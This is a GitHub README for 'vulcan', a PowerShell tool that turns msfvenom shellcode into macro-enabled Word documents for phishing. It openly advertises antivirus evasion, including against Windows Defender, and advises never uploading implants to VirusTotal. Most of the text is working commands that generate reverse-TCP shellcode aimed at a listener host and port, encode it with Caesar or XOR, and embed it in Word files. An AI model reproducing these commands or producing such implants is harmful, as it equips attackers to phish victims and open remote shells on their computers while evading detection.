 # vulcan

[![Language](https://img.shields.io/badge/Lang-PowerShell-blue.svg)](https://docs.microsoft.com/en-gb/powershell/)
[![License](https://img.shields.io/badge/License-BSD%203-red.svg)](https://opensource.org/licenses/BSD-3-Clause)

## A `PowerShell` script that simplifies life and therefore... phishing. 🎣

A `PowerShell` script to automate the creation of consitent and efficient macro-enabled `Word` documents. At the time of writing, the `indirect` template yields great results at evading most AVs, including `Windows Defender` in some cases.

This `PowerShell` script can be viewed as *kind of* a third-party add-on to [MSFVenom](https://www.offensive-security.com/metasploit-unleashed/msfvenom/) - made possible thanks to [Windows Subsystem for Linux](https://docs.microsoft.com/en-us/windows/wsl/install) - that leverage templates to quickly and easily - *encoded* - create `Word` implants.

Users/stargazers are greatly encouraged toward contributing to improving and extending this project. 🐺

### ⚠️ Do not be a dummy... NEVER submit any implant to VirusTotal. 🤢

## Features

- Decoding routines/functions (`.\assets\decoders`) -> **do not hesitate to submit new templates**.
- Piping of shellcodes allowing for complex transformations in order to evade AVs.
- `Visual Basic` templating (`.\assets\templates`) -> **do not hesitate to submit new templates**.
- Work-around `Visual Basic` line-continuation limitations using `-Treshold`.

## Requirements

- [Windows Subsystem for Linux](https://docs.microsoft.com/en-us/windows/wsl/install) with [MSFVenom](https://www.offensive-security.com/metasploit-unleashed/msfvenom/) installed.

## Installation

1. Clone this repository:

    ```powershell
    git clone https://github.com/aress31/vulcan
    cd vulcan
    ```

2. Load the `PowerShell` scripts:

    ```powershell
    Import-Module -Name .\Vulcan.psm1
    ```

3. (Optional) List available commands:

    ```powershell
    Get-Module -Name vulcan | select -ExpandProperty ExportedFunctions
    ```

4. Run `vulcan`:

    ```powershell
    wsl --exec msfvenom -p windows/shell/reverse_tcp LHOST=192.168.0.101 LPORT=443 EXITFUNC=thread -f hex | `
        Invoke-Vulcan -OutputDirectory ".\winwords\" -Template ".\assets\templates\indirect.vba"
    ```

> Although obvious, `windows/shell/reverse_tcp LHOST=192.168.0.101 LPORT=443 EXITFUNC=thread` is a placeholder in the above example... 🙄

## Usage

`Get-Help -Name Invoke-Vulcan` is your friend... Your best friend is `Get-Help -Name Invoke-Vulcan -Detailed`. Nonetheless, `Invoke-Vulcan` must be fed a `hex`-formatted shellcode. This can be achieved with:

```powershell
Get-Content -Path $ShellCode | Invoke-Vulcan ...
```

```powershell
wsl --exec msfvenom ... -f hex | Invoke-Vulcan ...
```

### Examples

- Embed a `plain` shellcode:

    ```powershell
    wsl --exec msfvenom -p windows/shell_reverse_tcp LHOST=192.168.0.101 LPORT=443 EXITFUNC=thread -f hex | `
        Invoke-Vulcan -OutputDirectory ".\winwords\" -Template ".\assets\templates\indirect.vba"
    ```

- Embed a `Caesar`-encoded shellcode:

    ```powershell
    wsl --exec msfvenom -p windows/shell_reverse_tcp LHOST=192.168.0.101 LPORT=443 EXITFUNC=thread -f hex | `
        Invoke-Caesar -Key 5 | `
        Invoke-Vulcan -OutputDirectory ".\winwords\" -Template ".\assets\templates\indirect.vba" -Decoder Caesar -DecoderPath ".\assets\decoders\caesar.vba" -Key 5 -Verbose
    ```

- Embed a `XOR`-encoded shellcode:

    ```powershell
    wsl --exec msfvenom -p windows/shell_reverse_tcp LHOST=192.168.0.101 LPORT=443 EXITFUNC=thread -f hex | `
        Invoke-XOR -Key "StarWatchThisRepo" | `
        Invoke-Vulcan -OutputDirectory ".\winwords\" -Template ".\assets\templates\indirect.vba" -Decoder XOR -DecoderPath ".\assets\decoders\xor.vba" -Key "StarWatchThisRepo" -Verbose
    ```
    
    https://user-images.githubusercontent.com/11601622/182009478-5e52ae7d-9bdb-44e5-bf25-06c57597d4be.mp4
        
    > [!WARNING]
    > The length of the key must be shorted than the shellcode.

> Although obvious, `windows/shell/reverse_tcp LHOST=192.168.0.101 LPORT=443 EXITFUNC=thread` is a placeholder in the above examples... 🙄

## Sponsor 💓

If you want to support this project and appreciate the time invested in developping, maintening and extending it; consider donating toward my next (cup of coffee ☕/lamborghini 🚗) - as **a lot** of my **personal time** went into creating this project. 😪

It is easy, all you got to do is press the `Sponsor` button at the top of this page or alternatively [click this link](https://github.com/sponsors/aress31). 😁

## Reporting Issues

Found a bug 🐛? I would love to squash it!

Please report all issues on the GitHub [issues tracker](https://github.com/aress31/vulcan/issues).

## Contributing

You would like to contribute to better this project? 🤩

Please submit all `PRs` on the GitHub [pull requests tracker](https://github.com/aress31/vulcan/pulls).

## Acknowledgements

Give to Caesar (no pun intended 🙄) what belongs to Caesar:

- [MSFVenom](https://www.offensive-security.com/metasploit-unleashed/msfvenom/)

## License

`vulcan` is primarily distributed under the terms of the `BSD 3`.

See [LICENSE](./LICENSE) for details.
